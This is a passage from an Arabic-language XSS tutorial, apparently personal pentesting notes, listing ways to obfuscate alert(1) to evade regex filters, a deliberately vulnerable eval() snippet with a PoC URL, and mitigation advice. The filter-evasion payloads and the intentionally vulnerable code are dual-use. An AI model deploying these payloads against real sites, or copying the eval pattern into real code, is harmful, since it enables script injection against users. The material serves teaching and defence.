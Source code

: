 **الخلاصة:**
حقن بدون أحرف أبجدية باستخدام ترميز أوكتال مثل `[]['\146\151\154\164\145\162']...` فعال لأنه يتجاوز مرشحات الأحرف.

---

## ** ✅تشويش التنبيه (Alert Obfuscation)**
{ #XSS_Obfuscation_payloads }
**الشرح البسيط:**
يُستخدم لتضليل مرشحات التعبيرات العادية (Regex) بكتابة `alert(1)` بطرق غير قياسية.

**أمثلة تعمل:**
- `(alert)(1)`: يفصل `alert` عن الأقواس.
- `a=alert,a(1)`: يُعرّف متغيرًا ثم يُنفذ.
- `[1].find(alert)`: يستخدم دالة `find` لتنفيذ `alert`.
- `top["al"+"ert"](1)`: يُكوّن `alert` من سلاسل.
- `top[/al/.source+/ert/.source](1)`: يستخدم تعبيرات Regex.
- `al\u0065rt(1)`: يستخدم ترميز Unicode.
- `top['al\145rt'](1)`: يستخدم ترميز أوكتال.
- `top[8680439..toString(30)](1)`: يُحوّل رقمًا إلى `alert` باستخدام نظام العد 30.

**لماذا يعمل؟**
- التشويش يتجاوز مرشحات Regex التي تبحث عن `alert` مباشرة.
- الطرق مثل Unicode وRegex تعمل في المتصفحات الحديثة.
- يمكن دمجها مع تقنيات أخرى لزيادة الفعالية.

### 🔥 الكود المصاب:

```html
<!-- vulnerable3.html -->
<script>
  eval("x = " + "<?=$_GET['input']?>");
</script>
```

### 💣 PoC:

```
vulnerable3.html?input=(alert)(1)
```

### ✅ الحماية:

- لا تستخدم `eval()` على الإطلاق.
    
- استخدم `JSON.parse()` أو أي طريقة آمنة بديلة.
    
#### شرح للتبسيط

![2025-06-23 18-21-54.mkv](attachments/2025-06-23 18-21-54.mkv)

**الخلاصة:**
تشويش التنبيه باستخدام `(alert)(1)` أو `top["al"+"ert"](1)` فعال لأنه يتجاوز مرشحات Regex بصيغ غير قياسية.

---